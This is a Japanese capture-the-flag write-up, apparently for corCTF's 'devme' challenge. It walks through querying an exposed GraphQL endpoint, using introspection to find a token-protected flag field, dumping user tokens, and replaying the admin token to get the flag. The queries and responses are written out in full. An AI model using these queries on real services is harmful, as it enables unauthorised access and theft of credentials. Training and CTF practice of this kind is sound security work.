


# Writeup

[https://devme.be.ax](https://devme.be.ax/) にアクセスする。

ページ下部にあるメールアドレス入力フォームを押してみる。



すると、次のようなPOSTリクエストが送信される。



`/graphql`というエンドポイントがあることが分かったので、GraphQL injectionを試みる。

[参考]

* [SECCON Beginners 2020 Writeup (profiler, Somen)](https://www.ryotosaito.com/blog/?p=474)

queryを

```
query{__type(name: \"Query\"){name fields{name args{name type{name kind}} type{name kind ofType{name kind}}}}}
````

と書き換えると、次のようなレスポンスが返ってきた。

```json
{
    "data": {
        "__type": {
            "name": "Query",
            "fields": [
                {
                    "name": "users",
                    "args": [],
                    "type": {
                        "name": null,
                        "kind": "NON_NULL",
                        "ofType": {
                            "name": null,
                            "kind": "LIST"
                        }
                    }
                },
                {
                    "name": "flag",
                    "args": [
                        {
                            "name": "token",
                            "type": {
                                "name": null,
                                "kind": "NON_NULL"
                            }
                        }
                    ],
                    "type": {
                        "name": null,
                        "kind": "NON_NULL",
                        "ofType": {
                            "name": "String",
                            "kind": "SCALAR"
                        }
                    }
                }
            ]
        }
    }
}
```

`flag`に対してQueryを投げてみると、`token`が足りないと返される。

```
query {flag}

{"errors":[{"message":"Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided.","locations":[{"line":1,"column":8}]}]}
```

また、`token`は適当に入力しても情報は取得できない。

```
query {flag(token:\"hoge\")}

{"errors":[{"message":"Invalid token!","locations":[{"line":1,"column":8}],"path":["flag"]}],"data":null}
```

なので、Queryで`username`と`token`を取得する。

```
query{users{username}}

{"data":{"users":[{"username":"admin"},
...
...
...
]}}

query{users{token}}

{"data":{"users":[{"token":"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"},
...
...
...
]}}
```

`admin`の`token`を引数に入れて再度Queryを投げるとフラグが得られた。

```
query {flag(token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}

{"data":{"flag":"corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"}}
```

<!-- corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice} -->
